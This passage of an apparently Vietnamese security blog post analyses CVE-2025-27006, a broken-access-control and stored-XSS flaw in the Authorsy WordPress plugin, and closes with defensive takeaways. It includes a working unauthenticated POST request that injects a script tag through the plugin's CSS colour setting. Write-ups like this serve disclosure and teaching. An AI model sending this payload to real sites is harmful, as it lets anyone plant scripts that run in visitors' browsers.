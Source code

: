 Điểm quan trọng:
- Khi **nonce** không hợp lệ, hàm chỉ trả về một đối tượng `WP_Error`, nhưng không dừng chương trình.
- Trong `update_settings`, giá trị trả về của **verify_nonce** không được kiểm tra => code vẫn tiếp tục thực hiện cập nhật.

👉 Như vậy, ta có thể thay đối giá trị của CSS chứa XSS payload trong database mà không cần đặc quyền gì cả => CSS được thêm vào `<head>` chứa mã độc

## Exploit
### Detect XSS
Gửi **POST** request đến `/wp-json/authorsy/v1/settings` với XSS payload

```http
POST /wp-json/authorsy/v1/settings HTTP/1.1
Host: localhost

Content-Type: application/json

{
"primary_color":"</style><script>alert(document.domain)</script><style>"
}
```

Ta đóng thẻ `<style>` (CSS trong head) và inject thêm thẻ `<script>` chứa XSS payload.

Truy cập một trang bất kỳ 

![XSS](assets/img/posts/2025-09-17-CVE-2025-27006/xss.png)

👉 XSS thành công, **inspect** để xem code được thay đổi như nào

```html
<style>
    :root { 
        --ea-color-main: </style><script>alert(document.domain)</script><style>;  
    } 
</style>
```

## Conclusion
Lỗ hổng `CVE-2025-27006` trong plugin **Authorsy <= 1.0.5** là một ví dụ điển hình về **Broken Access Control** kết hợp với **XSS**. Nguyên nhân chính là:
1. **REST API** không kiểm soát quyền truy cập: bất kỳ user nào cũng có thể gọi `/wp-json/authorsy/v1/settings` để thay đổi các option.
2. **CSS** tùy chỉnh chưa được **sanitize**: giá trị CSS được chèn trực tiếp vào `<style>` trong `<head>`, cho phép kẻ tấn công inject payload `<script>` thông qua CSS.
Nonce không được xử lý đúng: **verify_nonce** chỉ trả về **WP_Error** mà không ngăn code thực thi, khiến việc kiểm tra bảo mật gần như vô hiệu.

**Key takeaways**:
- **REST API** cần kiểm soát quyền: luôn sử dụng `permission_callback` hợp lý để ngăn **Broken Access Control**.
- Sanitize dữ liệu người dùng trước khi render trong HTML/CSS/JS để phòng **XSS**.
